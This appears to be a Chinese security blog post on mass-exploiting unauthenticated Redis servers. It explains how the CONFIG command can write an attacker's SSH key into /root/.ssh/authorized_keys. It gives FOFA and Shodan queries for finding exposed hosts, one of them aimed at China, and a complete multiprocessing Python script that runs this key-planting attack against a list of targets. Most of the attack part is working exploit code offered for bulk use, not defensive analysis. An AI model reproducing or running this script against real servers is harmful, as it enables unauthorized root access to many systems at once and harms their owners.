#  redis未授权访问漏洞的批量攻击

&emsp;&emsp;Redis在默认情况下，会绑定在0.0.0.0:6379。如果没有采取相关的安全策略，比如添加防火墙规则、避免其他非信任来源IP访问等，这样会使Redis服务完全暴露在公网上。如果在没有设置密码认证(一般为空)的情况下，会导致任意用户在访问目标服务器时，可以在未授权的情况下访问Redis以及读取Redis的数据。攻击者在未授权访问Redis的情况下，利用Redis自身的提供的config命令，可以进行文件的读写等操作。攻击者可以成功地将自己的ssh公钥写入到目标服务器的 /root/.ssh文件夹下的authotrized_keys文件中，进而可以使用对应地私钥直接使用ssh服务登录目标服务器。

## FOFA查询

#### 语法

```port="6379" && "redis_version:4.0.3" && country="CN"```

![](./attachment/2022-01-04/fofa.png)

## Shodan查询

#### 语法

```port:6379 "redis_version:4.0"```

![](./attachment/2022-01-04/Shodan.png)

## 应用

&emsp;&emsp;普通的应用方式就不在此介绍了，这里主要想讲一下如何批量进行漏洞利用。脚本代码如下：

```python
import redis
from multiprocessing import Pool
import subprocess

WORKERS = 50


def preDetect(host):
    try:
        r = redis.StrictRedis(host=host, port=6379, db=0, socket_timeout=1)
        return host
    except Exception:
        return False


def evil(host: str):
    host = preDetect(host)
    if host == "False":
        return False
    else:
        cmd = "cat key.txt | redis-cli -h %s -x set crack > log.txt 2>&1" % host
        subprocess.call(cmd, shell=True, stderr=None)
        r = redis.StrictRedis(host=host, port=6379, db=0)
        try:
            r.config_set('dir', '/root/.ssh')
        except Exception as e:
            return False
        r.config_set('dbfilename', 'authorized_keys')
        try:
            r.save()
            print(host)
        except Exception as e:
            return False


if __name__ == "__main__":
    with open("targets.txt") as targets:
        targets = targets.read().splitlines()
    with Pool(processes=WORKERS) as executor:
        executor.map(evil, targets)
```

## 验证截图

![](./attachment/2022-01-04/result.png)
